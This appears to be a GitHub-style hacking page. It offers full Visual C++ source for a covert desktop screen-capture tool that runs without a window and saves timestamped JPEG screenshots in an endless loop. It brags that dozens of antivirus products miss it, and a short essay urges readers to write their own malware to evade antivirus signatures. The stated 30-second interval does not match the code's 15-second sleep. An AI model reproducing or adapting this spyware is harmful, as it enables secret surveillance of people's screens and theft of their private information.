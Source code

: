 ### Hidden Screen Catpure C++ (Stealth Mode)
Take a screenshot of desktop in hidden mode using Visual C++ and save automatically to 'jpeg' file in every 30 second. 60+ Most Popular antivirus not detect this application while it is running on background.

### Why Programming Is Important for Hackers to Know.

Programming is an important skill that every self respecting hacker should master. here are some good examples of why it is important:

* Building your own malware. 
When you program your own malware, there is no signature for it registered, thus making it pretty much impossible for AV software to detect.

* Knowing how programs work will help you exploit them. 
though most exploit development is done in the assembly language in debuggers, knowing how a program works will help you exploit it faster.

* Hacking tools are mostly open source. 
most hacking tools are open source, which means everyone can access the source code of said program. when you know how to program in the language the program is written, you can edit it and make it even better!

* Making your own exploits. 
Though i recommend ruby & the Metasploit Framework for this purpose, ruby is still quite slow compared to C or C++. if you need your exploit to be fast, you can write it in C/C++.

i choose to make a series about C/C++ because C++ is a powerful language and is used in a lot of programs, like games. C is less powerfull but is still quite a low-level language, which means it interacts closely with the CPU. embedded devices are usually programmed in C aswell, from traffic lights to your microwave, will most likely run on some kind of software that is written in C.


### Source Code

```
#include <stdio.h>
#include <string>
#include <windows.h>
#include <wininet.h>
#include <winuser.h>
#include <conio.h>
#include <time.h>
#include <fstream>
#include <strsafe.h>
#include <io.h>
#include <crtdefs.h>
#include <fstream>
#include <GdiPlus.h>
#include <lmcons.h>

char acUserName[100];

using namespace Gdiplus;
using namespace std;

fstream err("errormul.txt",ios::app);
fstream log_error_file("log_error.txt",ios::app);

#pragma comment(lib, "user32.lib") 
#pragma comment(lib,"Wininet.lib")
#pragma comment (lib,"gdiplus.lib")

void getusername(){
	
	DWORD nUserName = sizeof(acUserName);
	GetUserName(acUserName, &nUserName);
	err<<acUserName;
	err.close();

}

void screenshot(string file){
	ULONG_PTR gdiplustoken;
	GdiplusStartupInput gdistartupinput;
	GdiplusStartupOutput gdistartupoutput;

	gdistartupinput.SuppressBackgroundThread = true;
	GdiplusStartup(& gdiplustoken,& gdistartupinput,& gdistartupoutput); //start GDI+

	HDC dc=GetDC(GetDesktopWindow());//get desktop content
	HDC dc2 = CreateCompatibleDC(dc);	 //copy context

	RECT rc0kno;

	GetClientRect(GetDesktopWindow(),&rc0kno);// get desktop size;
	int w = rc0kno.right-rc0kno.left;//width
	int h = rc0kno.bottom-rc0kno.top;//height

	HBITMAP hbitmap = CreateCompatibleBitmap(dc,w,h);//create bitmap
	HBITMAP holdbitmap = (HBITMAP) SelectObject(dc2,hbitmap);

	BitBlt(dc2, 0, 0, w, h, dc, 0, 0, SRCCOPY);//copy pixel from pulpit to bitmap
	Bitmap* bm= new Bitmap(hbitmap,NULL);

	UINT num;
	UINT size;

	ImageCodecInfo *imagecodecinfo;
	GetImageEncodersSize(&num,&size); //get count of codec

	imagecodecinfo = (ImageCodecInfo*)(malloc(size));
	GetImageEncoders (num,size,imagecodecinfo);//get codec

	CLSID clsidEncoder;

	for(int i=0; i < num; i++)
	{
		if(wcscmp(imagecodecinfo[i].MimeType,L"image/jpeg")==0)
			clsidEncoder = imagecodecinfo[i].Clsid;//get jpeg codec id

	}

	free(imagecodecinfo);

	wstring ws;
	ws.assign(file.begin(),file.end());//sring to wstring
	bm->Save(ws.c_str(),& clsidEncoder); //save in jpeg format
	SelectObject(dc2,holdbitmap);//Release Objects
	DeleteObject(dc2);
	DeleteObject(hbitmap);

	ReleaseDC(GetDesktopWindow(),dc);
	GdiplusShutdown(gdiplustoken);

}

int APIENTRY WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPTSTR lpCmdLine, int CmdShow)
{
	while(true){
	SYSTEMTIME st;
	GetLocalTime(&st);
	int year = st.wYear;
	int month = st.wMonth;
	int day = st.wDay;
	int hour = st.wHour;
	int mintue = st.wMinute;

	string yearS =  to_string(year);
	yearS += "_";
	string monthS =  to_string(month);
	monthS += "-";
	string dayS =  to_string(day);
	dayS += "-";
	string hourS =  to_string(hour);
	hourS += "H-";
	string mintueS =  to_string(mintue);
	mintueS += "M.jpg";

	string startDate;
	startDate =dayS + monthS + yearS + hourS + mintueS;
	
	screenshot(startDate);
	Sleep(500*30*1);
//	getusername();
	}
}

```
